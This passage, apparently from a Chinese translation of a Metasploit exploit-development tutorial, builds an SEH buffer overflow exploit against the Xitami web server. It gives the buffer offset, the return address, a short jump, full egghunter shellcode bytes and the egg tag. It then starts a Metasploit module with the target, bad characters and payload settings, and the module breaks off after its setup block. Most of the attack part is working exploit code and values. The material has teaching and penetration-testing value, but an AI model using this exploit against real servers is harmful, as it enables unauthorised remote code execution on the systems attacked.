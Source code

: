 <colgroup><col style="text-align: left"> <col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

序列号

 | 

要素

 | 

价值观

 |
| --- | --- | --- |
| 1. | 要填充缓冲区的垃圾数量 | `72` |
| 2. | 返回地址/Windows XP SP2（在实际攻击中，该值是针对 Windows XP SP3 给出的） | `\x72\x93\xab\x71` |
| 3. | 跳远 | `\xeb\x22` |
| 4. | 蛋猎手 | `\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8ap3x\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7` |
| 5. | 标签（`w00tw00t`在实际利用中） | `ap3xap3x /w00tw00t` |

正如我们在上表中所看到的，我们已经收集了在利用中使用的所有必需值；让我们再向前迈进一步，为我们开发一个骨架。

## 生成骨架

我们可以使用`mona.py`脚本再次为该漏洞生成骨架。但是，请确保我们正在利用这里的端口`80`。因此，在`mona.py`中生成漏洞骨架时，将端口号填入`80`。

## 填充值

为了在该漏洞的框架中填充值，让我们分析我们做了哪些更改以及在何处进行了更改：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  include Msf::Exploit::Remote::Tcp
  def initialize(info = {})
    super(update_info(info,
      'Name'    => 'Xitami 2.5c2 Web Server If-Modified-Since Overflow',
      'Description'  => %q{
        This module exploits a seh based buffer overflow in the Xitami Web Server 2.5b4
      },
      'Author'   => 'Nipun Jaswal',
      'License'       => MSF_LICENSE,
      'Version'       => '2.5b4',
      'Privileged'    => false,
      'DefaultOptions'	=>
      {
        'EXITFUNC'  => 'process',
      },
      'Payload'    =>
        {
          'Space'    => 499,
          'BadChars'   => "\x00\x0a\x0d",
        },
      'Platform' => ['win'],
      'Targets'  =>
      [
        [ 'Windows XP SP2', { 'Ret' => "\x72\x93\xab\x71", 'Offset'=> 72} ],
      ],
      'DefaultTarget' => 0))
```